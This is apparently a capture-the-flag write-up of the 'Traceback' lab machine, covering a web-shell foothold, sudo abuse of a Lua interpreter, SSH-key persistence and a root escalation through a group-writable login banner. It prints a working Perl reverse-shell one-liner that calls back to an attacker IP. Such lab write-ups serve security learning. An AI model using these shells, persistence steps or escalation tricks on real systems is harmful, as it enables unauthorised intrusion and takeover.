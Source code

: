 * Traceback
** Enumeration
*** ssh
*** http
Site is already owned
** Foothold
Looking at https://github.com/xh4h/Web-Shells and trying all those shells find one that works and gives access to the box: ~smevk.php~

Within a web interface, ~smevk~ allows upload/download, filesystem navigation and command execution. It's limited though.

** Escalation
*** webadmin -> sysadmin

From smevk, it's easy to find the note that the sysadmin left the webadmin, pointing to ~luavit~, a program to execute ~lua~ programs. But where is it?

~sudo -l~ points the way, it's in ~/home/sysadmin~, and webadmin can execute it *as* sysadmin with ~sudo~. And since it's just executing arbitrary programs, we can easily exploit...

I choose to reference someone's package for executing shell commands in lua, https://github.com/zserge/luash, copying over the main script via the existing webshell, with a few tweaks so that the a reverse shell is opened against a listener on the attacker:

#+begin_src lua
local perl = 'perl -e \'use Socket;$i="10.10.16.90";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''
local list = command(perl)()
print(list)
#+end_src

I ran this a few times with different commands (~ls~, ~whoami~, ~ping~) to make sure things were working and then ran the reverse shell with ~perl~ as above.

Now with a reverse shell opened on my machine, I have ~sysadmin~ and ~user.txt~.

*** sysadmin -> root

After owning ~sysadmin~, I want an easy way back in. Luckily there's a ~/home/sysadmin/.ssh/authorized_keys~ file, so I generated a ssh key on the attacker box and append the public half to the sysadmin's authorized keys. Now I can drop the reverse shell and just ~ssh~ in directly.

Next to elevate to root!

Basic enumeration doesn't reveal anythig too obvious, but ~ps -ax~ happens to catch an odd copy command in action. ~pspy~ helps nail down what's happening exactly: the message-of-the-day files are being copied back and forth from ~/etc~ to ~/var/backups~ every 30 seconds.

How does that help? Well the banner greeting is in one of those files, and it's executed everytime someone logs in... and in one of those directories the files are owned by ~root:sysadmin~, with group-write on. That means ~sysadmin~ can write to them but ~root~ will execute them.

With just that circumstance alone there are probably a ton of ways to exploit, but simple is best. I add to the end of the login banner the same perl reverse shell, then open up a new ssh session before the file is overwritten.

~root~ owned.
